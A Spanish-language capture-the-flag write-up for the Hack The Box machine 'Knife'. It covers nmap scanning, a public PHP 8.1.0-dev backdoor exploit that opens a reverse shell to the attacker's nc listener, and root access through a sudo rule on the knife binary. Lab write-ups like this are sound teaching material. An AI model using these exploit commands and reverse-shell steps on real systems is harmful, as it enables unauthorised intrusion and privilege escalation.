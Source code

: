```yaml
---
icon: desktop
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Knife

`Knife` es una máquina Linux de dificultad fácil que cuenta con una aplicación que se ejecuta en una versión de PHP con puerta trasera. Esta vulnerabilidad se aprovecha para obtener un punto de apoyo en el servidor. Luego se aprovecha una configuración incorrecta de sudo para obtener un shell de root.

<figure><img src="../../.gitbook/assets/Knife.png" alt="" width="563"><figcaption></figcaption></figure>

***

## Reconnaissance

Realizaremos un reconocimiento con **nmap** para ver los puertos que están expuestos en la máquina **Knife**. Este resultado lo almacenaremos en un archivo llamado `allPorts`.

```bash
❯ nmap -p- --open -sS --min-rate 1000 -vvv -Pn -n 10.10.10.242 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-26 04:56 CET
Initiating SYN Stealth Scan at 04:56
Scanning 10.10.10.242 [65535 ports]
Discovered open port 22/tcp on 10.10.10.242
Discovered open port 80/tcp on 10.10.10.242
Completed SYN Stealth Scan at 04:56, 12.50s elapsed (65535 total ports)
Nmap scan report for 10.10.10.242
Host is up, received user-set (0.042s latency).
Scanned at 2025-01-26 04:56:13 CET for 12s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 12.60 seconds
           Raw packets sent: 65535 (2.884MB) | Rcvd: 65541 (2.622MB)
```

A través de la herramienta de [`extractPorts`](https://pastebin.com/X6b56TQ8), la utilizaremos para extraer los puertos del archivo que nos generó el primer escaneo a través de `Nmap`. Esta herramienta nos copiará en la clipboard los puertos encontrados.

```bash
❯ extractPorts allPorts

[*] Extracting information...

	[*] IP Address: 10.10.10.242
	[*] Open ports: 22,80

[*] Ports copied to clipboard
```

Lanzaremos scripts de reconocimiento sobre los puertos encontrados y lo exportaremos en formato oN y oX para posteriormente trabajar con ellos. En el resultado comprobamos que se encuentran abiertos el servicio SSH y una página web de `Apache`.

```bash
❯ nmap -sCV -p22,80 10.10.10.242 -A -oN targeted -oX targetedXML
Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-26 04:58 CET
Nmap scan report for knife.htb (10.10.10.242)
Host is up (0.053s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19, Linux 5.0 - 5.14
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   90.36 ms 10.10.16.1
2   31.31 ms knife.htb (10.10.10.242)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.61 seconds
```

Transformaremos el archivo generado `targetedXML` para transformar el XML en un archivo HTML para posteriormente montar un servidor web y visualizarlo.

```bash
❯ xsltproc targetedXML > index.html

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Accederemos a[ http://localhost](http://localhost) y verificaremos el resultado en un formato más cómodo para su análisis.

<figure><img src="../../.gitbook/assets/4128_vmware_hhbMEKYg8V.png" alt=""><figcaption></figcaption></figure>

## Initial Access

### PHP 8.1.0-dev - 'User-Agent' Remote Code Execution \[RCE]

Accederemos a http://10.10.10.242 y verificaremos que se trata de un `Apache HTTP Server 2.4.41` que utiliza `PHP 8.1.0`.

Realizamos una enumeración del sitio web en busca de subdominios, directorios, páginas sin éxito.

<figure><img src="../../.gitbook/assets/imagen (264).png" alt=""><figcaption></figcaption></figure>

Probamos de buscar vulnerabilidades sobre la versión de `PHP` que se encontraba instalada en el sitio web, nos logramos encontrar con el siguiente repositorio.

Nos clonaremos el repositorio de GitHub en nuestra máquina local.

{% embed url="https://github.com/flast101/php-8.1.0-dev-backdoor-rce" %}

```bash
❯ git clone https://github.com/flast101/php-8.1.0-dev-backdoor-rce; cd php-8.1.0-dev-backdoor-rce
Clonando en 'php-8.1.0-dev-backdoor-rce'...
remote: Enumerating objects: 241, done.
remote: Counting objects: 100% (239/239), done.
remote: Compressing objects: 100% (113/113), done.
remote: Total 241 (delta 128), reused 232 (delta 124), pack-reused 2 (from 1)
Recibiendo objetos: 100% (241/241), 1.66 MiB | 9.65 MiB/s, listo.
Resolviendo deltas: 100% (128/128), listo.
```

Nos pondremos en escucha para recibir la Reverse Shell.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
```

Ejecutaremos el exploit indicándole la página vulnerable y nuestra dirección y puerto donde estaremos escuchando para recibir la terminal.

```bash
❯ python3 revshell_php_8.1.0-dev.py http://10.10.10.242 10.10.16.5 443
```

Después de lanzar el ataque, logramos acceder al equipo víctima y visualizar la flag de **user.txt**.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.10.242] 52728
bash: cannot set terminal process group (1035): Inappropriate ioctl for device
bash: no job control in this shell
james@knife:/$ cat /home/james/user.txt
cat /home/james/user.txt
a7ef6c441**********************
```

## Privilege Escalation

### Abusing sudoers privilege (knife)

Revisando si el usuario que disponíamos actualmente tenía algún permiso de **sudoers**, nos encontramos que podía ejecutar como `sudo` el binario de `knife`.

{% hint style="info" %}
Knife es una herramienta de línea de comandos que proporciona una interfaz entre un repositorio local de Chef y Chef Infra Server. Knife ayuda a los usuarios a administrar:
{% endhint %}

```bash
james@knife:/$ sudo -l
sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```

Revisando en `GTFOBins` nos encontramos con la siguiente página en dónde nos explican como abusar de este binario en caso de disponer de permisos `sudo` sobre él.

{% embed url="https://gtfobins.github.io/gtfobins/knife/" %}

Realizamos la explotación como`sudo` sobre el binario `knife` y verificamos que logramos obtener una bash como usuario `root`. Por otro lado, logramos también verificar cual es la flag de **root.txt**.

```bash
james@knife:/$ sudo /usr/bin/knife exec -E 'exec "/bin/bash"'
sudo /usr/bin/knife exec -E 'exec "/bin/bash"'
root@knife:/# cat /root/root.txt
cat /root/root.txt
a802f8156***********************
```

